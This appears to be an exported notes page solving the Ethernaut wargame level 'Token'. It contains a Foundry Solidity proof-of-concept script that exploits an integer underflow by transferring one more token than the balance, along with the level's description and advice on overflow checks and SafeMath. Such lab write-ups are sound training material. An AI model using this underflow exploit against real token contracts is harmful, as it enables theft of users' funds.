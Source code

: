 ```yaml
---
title: "Token"
date: "2024-02-01"
lastmod: "2024-02-12T13:54:00.000Z"
draft: false
difficulty: "⭐⭐"
weight: 5
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/5"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "4a8cb876-5f8c-4121-90f2-db4a7989f9b5"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T13:54:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text: []
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 5
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/5"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Token"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token"
          href: null
  url: "https://www.notion.so/Token-4a8cb8765f8c412190f2db4a7989f9b5"
  public_url: null
UPDATE_TIME: "2024-02-12T14:32:27.774Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```


The goal of this level is for you to hack the basic token contract below.


You are given 20 tokens to start with and you will beat the level if 
you somehow manage to get your hands on any additional tokens. 
Preferably a very large amount of tokens.


Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:


```text
if(a + c > a) {
  a = a + c;
}

```


An easier alternative is to use OpenZeppelin's SafeMath library that 
automatically checks for overflows in all the mathematical operators. 
The resulting code looks like this:


```text
a = a.add(c);

```


If there is an overflow, the code will revert.

